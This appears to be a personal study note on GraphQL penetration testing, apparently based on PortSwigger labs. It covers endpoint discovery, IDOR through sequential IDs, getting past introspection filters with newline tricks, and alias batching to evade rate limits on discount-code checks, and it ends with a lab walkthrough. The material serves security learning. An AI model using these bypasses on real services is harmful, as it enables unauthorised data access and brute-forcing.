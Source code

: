 # Testing

### Discover GraphQL endpoint
 - Graphql uses same endpoint for all actions.
 - Universal queries, send `query{__typename}` to any grapqhl endpoint, endpoints will respond with `{"data": {"__typename": "query"}}` somewhere in its response.
 - Common endpoints (maybe add v1,v2 ... to mix it up )
     - /graphql
     - /api
     - /api/graphql
     - /graphql/api
     -/graphql/graphql
 - GraphQL services will often respond to any non-GraphQL request with a `"query not present"` or similar error.
 - Usually they respond to `POST` if they don't, try different method with `x-www-form-urlencoded`.
 - If graphql powers the website, visit web UI, see HTTP history.
 - Burp scanner auto finds it and raises a issue, owasp zap too ?

### Exploiting unsanitized arguments
 - like IDOR
 - Example:
 - Request
```
#Example product query

    query {
        products {
            id
            name
            listed
        }
    }
```
 - Response
```
  #Example product response

    {
        "data": {
            "products": [
                {
                    "id": 1,
                    "name": "Product 1",
                    "listed": true
                },
                {
                    "id": 2,
                    "name": "Product 2",
                    "listed": true
                },
                {
                    "id": 4,
                    "name": "Product 4",
                    "listed": true
                }
            ]
        }
    }
```
 - See that ID is sequential  and id 3 is missing.
 - New Request
```
#Query to get missing product

    query {
        product(id: 3) {
            id
            name
            listed
        }
    }
```
 - Check if we get response?

### Discovering schema information
 - Use introspection query. full query at https://portswigger.net/web-security/graphql.
 - inQL burp plugin.
 - Suggesstions ? https://github.com/nikitastupin/clairvoyance

### Bypassing GraphQL introspection defences
 - When developers disable introspection, they could use a regex to exclude the __schema keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.
 - Alternate method?
```
 #Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }
```

### Bypassing rate limiting using aliases
 - aliases are used to Explicitly name the instance name to instances being returned, so we can have 2 properties of same type.
```
#Valid query using aliases

    query getProductDetails {
        product1: getProduct(id: "1") {
            id
            name
        }
        product2: getProduct(id: "2") {
            id
            name
        }
    }
```
 - Some rate limiters work based on the number of HTTP requests received rather than the number of operations performed on the endpoint.
```
#Request with aliased queries

    query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }
```
 - See how made query to same object 3x in same request.

### LABS
##### Lab: Accessing private GraphQL posts
 - Looked at http history, sent data to inQL, Type the full URL in inQL scanner, I see
```
query {
	getBlogPost(id:1334) {
		date
		summary
		image
		author
		isPrivate
		title
		paragraphs
		id
		postPassword
	}
}
```
 -  `postPassword` is unique field, so turbo intruder with `postPassword` added to graphql fields, get the password.
